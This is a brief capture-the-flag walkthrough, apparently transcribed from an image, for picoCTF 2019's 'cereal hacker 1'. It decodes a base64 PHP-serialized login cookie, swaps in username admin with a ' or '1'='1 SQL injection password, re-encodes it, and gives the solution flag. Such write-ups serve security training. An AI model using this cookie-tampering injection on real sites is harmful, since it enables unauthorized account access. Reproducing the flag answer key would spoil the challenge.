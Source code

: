 # AUR

cereal hacker 1 - Points: 450 - (Solves: 184)Web Exploitation - Unsolved
Solve
Login as admin. https://2019shell1.picoctf.com/problem/12279/ or http://2019shell1.picoctf.com:12279
Walkthrough: Edit the cookie values into a simple SQL injection.

***

username: guest
password: guest

TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D

https://www.base64decode.org/


O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}6p


O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:11:"' or '1'='1";}6p

https://www.base64encode.org/

TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJzEnPScxIjt9NnA=

http://2019shell1.picoctf.com:12279/index.php?file=admin


Flag: picoCTF{3fba6964d680deb73b38b7f2916df7d5}

